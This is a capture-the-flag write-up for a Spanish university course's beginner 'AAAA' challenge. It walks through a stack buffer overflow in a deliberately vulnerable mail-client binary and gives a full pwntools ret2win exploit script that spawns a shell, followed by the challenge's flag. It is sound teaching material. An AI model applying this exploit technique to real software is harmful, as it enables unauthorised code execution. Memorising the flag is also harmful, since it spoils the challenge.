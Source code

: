 ```yaml
---
title: "AAAA - Writeup | URJC CTF Course"
layout: post
author: Jorge Moreno
---
```

This challenge is part of an introductory CTF course organized by students of Universidad Rey Juan Carlos.

## Challenge Description
---

> ¡Ups! Parece que me he olvidado una opción que no debería aparecer en el programa que he creado como cliente de correo. Menos mal que es super seguro, ¿a que sí?
> 
> 
> Challenge Author(s): [David Billhardt](https://twitter.com/t0ct0u)
> 
> Official Writeup: [AAAA.pdf](images/beginner-bof-wu/AAAA.pdf)  
>
> Category: **Binary Explotation**  
>
> Difficulty: **Very Easy**
>
> Challenge Files: [AAAA.zip](images/befinner-bof-wu/AAAA.zip)

## TL;DR

---

This challenge is an standard ret2win. We overflow the buffer into overriding the RIP and jumping to the win function to spawn a shell.

## Challenge Solution

---

First thing we are going to do is analyze the file with the ``file`` and ``checksec`` commands:

![Untitled](images/beginner-bof-wu/Untitled.png)

![Untitled](images/beginner-bof-wu/Untitled%201.png)

As we can see the only relevant restriction this binary has is the No eXecute bit. Which disallows us to execute any shellcode inside the stack.

After analyzing the different functions the program we see that it is a binary that shows us a menu to log in, print the name of the user, and send a message. After the decompilation we can see 2 important things:

- A function ``rce()`` that spawns a shell

```c
void rce(void){
		system("bin/sh");
		return;
}
```

- And the function ``enviar()`` that sends a message to an specific user

```c
void enviar(void)

{
  undefined message [208];
  undefined name [32];
  
  printf(&DAT_004020e0); // Prompts for the name
  __isoc99_scanf(&%20s,name);
  puts(&DAT_00402108); // Prompts for the message
  __isoc99_scanf("%s",message);
  printf("Mensaje enviado a %s",name);
  return;
}
```

The first ``scanf()`` only receives up to 20 characters, but the second one has no limit so it is vulnerable to **Buffer Overflow**. We are going to test this by sending to the program a bunch of A’s.

![Untitled](images/beginner-bof-wu/Untitled%202.png)

The program crashes because we overflow the buffer up to the RSP so after the ``ret;`` instruction it tries to jump into the address ``0x6161616161616161 (AAAAAAAA)``.

We are going to use pwndbg’s ``cyclic`` command to get the offset and override the first rsp bytes with the address of the ``rce()`` function.

![Untitled](images/beginner-bof-wu/Untitled%203.png)

![Untitled](images/beginner-bof-wu/Untitled%204.png)

Then we need to get the address of the ``rce()`` function. We can do this with pwntools.

![Untitled](images/beginner-bof-wu/Untitled%205.png)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = context.binary = ELF(args.EXE or './AAAA', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

offset = 248
rce_addr = exe.symbols.rce
ret = 0x000000000040101a # For stack aligning purposes

io = start()

payload = b"A" * offset
payload += flat(ret)
payload += flat(rce_addr)

io.sendlineafter(b'>', b'3') # Option
io.sendlineafter(b'>', b'a') # Name
io.recvline() # We do this because the prompt has a special character that pwntools doesn't work well with.
io.sendline(payload) # Payload

io.interactive()
```



**FLAG -- HackOn{c0MM0n_ret2wIN_1s_ez}**